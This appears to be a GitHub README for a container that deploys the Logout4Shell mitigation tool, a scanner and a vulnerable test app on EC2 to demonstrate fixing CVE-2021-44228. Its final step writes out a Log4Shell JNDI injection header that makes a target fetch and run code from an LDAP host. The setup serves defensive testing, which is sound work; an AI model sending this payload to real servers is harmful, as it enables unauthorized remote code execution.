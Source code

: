 # Logout4Shell Container

## Description

Since the disclosure of the Apache Log4j vulnerability affecting versions 2.0 through 2.14.1 in December of 2021, enterprises and small businesses have made it a priority to mitigate this risk. This vulnerability was given the highest possible severity rating of 10 when the CVE-2021-44228 was published on December 9, 2021 which allows remote code execution on vulnerable servers. 

With the guidance from the Apache software foundation, the best mitigation against this vulnerability is to patch log4j to 2.17.0 and above. In response to this 
vulnerability organizations like Cybereason and FullHunt have developed tools to scan for the vulnerability and mitigate this risk without the need to patch 
or restart the server.

Logout4Shell Container is not intended to take any credit for the research and development of these tools, but was developed for POC and ease of deployment.

More information regarding these tools can be found on [Cybereason Logout4Shell](https://github.com/Cybereason/Logout4Shell/blob/main/README.md) and 
[FullHunt log4j-scan](https://github.com/fullhunt/log4j-scan/blob/master/README.md)


## How Logout4Shell Container works

The Logout4Shell Container is multi-container application consisting of the Cybereason Logout4Shell webserver which hosts the Transient and Persistent payloads and the ldap server which enables communication to the webserver through the lookup. Once the Logout4shell container is deployed either locally or externally and inbound connections are whitelisted between the Logout4shell container and vulnerable server on ports 1389 and 8888, you can then SSH into the container and execute a curl command to the vulnerable server with an appropriate HTTP header. This command initiates the lookup to the ldap server which will then redirect to the webserver to deliver the payload.

## POC Test Environment

- Logout4Shell Container deployed on an Amazon Linux 2 AMI (HVM) - Kernel 5.10, 8 GB General Purpose SSD Volume Type, t2.micro, EC2 instance.
- FullHunt log4j scan deployed via a Docker container on an Amazon Linux 2 AMI (HVM) - Kernel 5.10, 8 GB General Purpose SSD Volume Type, t2.micro, EC2 instance.
- Vulnerable app deployed via a Docker container on an Amazon Linux 2 AMI (HVM) - Kernel 5.10, 8 GB General Purpose SSD Volume Type, t2.micro, EC2 instance. More information regarding this vulnerable app can be found on [Log4Shell sample vulnerable application]( https://github.com/christophetd/log4shell-vulnerable-app/blob/main/README.md).


## Test Environment Setup

### Logout4Shell Container

1. Launch an EC2 instance with the user data script below. This will run an OS update, install and start the Docker engine, ensure that the Docker daemon starts after each system reboot, add the ec2-user to the docker group so you can execute Docker commands without using sudo and install git.
```
#!/bin/bash
yum update -y
amazon-linux-extras install -y docker
service docker start
system reboot
systemctl enable docker
usermod -a -G docker ec2-user
yum install -y git
```
2. SSH into your instance and run the command below. This will download and install the latest version of Docker Compose.
```
sudo curl -L "https://github.com/docker/compose/releases/download/1.29.2/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
```
3. Adjust permissions.
```
sudo chmod +x /usr/local/bin/docker-compose
```
4. Clone repository.
```
git clone https://github.com/gbarretto/logout4shell-container.git
```
5. Change directory to logout4shell-container.
```
cd logout4shell-container
```
6. Open var.env in GNU nano to edit.
```
nano var.env
```
7. Replace ```<host_ip>``` with the public IP address of the EC2 instance making sure to keep quotation marks.  
8. Replace ```<mode_type>``` with Transient or Persistent making sure to keep quotation marks. 
9. Press Control + X to bring you to Save modified buffer question. Then press Y. Then press Enter to write changes to var.env file.
10. Build Docker images using the command below.
```
docker-compose build
```
11. Launch the containers in detached mode.
```
docker-compose up -d
```
### FullHunt log4j scan
1. Launch an EC2 instance with the same user data script from above.
2. SSH into your instance in a new terminal window and run the commands below to run FullHunt log4j scan.
```
git clone https://github.com/fullhunt/log4j-scan.git
cd log4j-scan
sudo docker build -t log4j-scan .
sudo docker run -it --rm log4j-scan
```
### Vulnerable app
1. Launch an EC2 instance with the same user data script from above. Adjust security group to allow inbound connection from the IP address of the Logout4Shell container on ports 1389 and 8888, and from the IP address of the FullHunt log4j scan on port 443.
3. SSH into your instance in a new terminal window and run the command below to run the vulnerable app via Docker.
```
docker run --name vulnerable-app --rm -p 443:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```
###Adjust Sedurity Group for Logout4Shell Container
1. In the AWS Management Console adjust the security group for the Logout4Shell Container to allow inbound connection from the IP address of the Vulnerable App on ports 1289 and 8888.

## How it works
1. From the FullHunt log4j scan terminal window, execute the command below replacing ```<Vulnerable_App_IP_Address>``` with the IP address of the Vulmerable app instance and ```<Logout4Shell_Container_IP_address>``` with the IP address of the Logout4Shell Container instance.
```
curl <Vulnerable_App_IP_Address>:443 -H 'X-Api-Version: ${jndi:ldap://<Logout4Shell_Container_IP_address>:1389/a}'
```


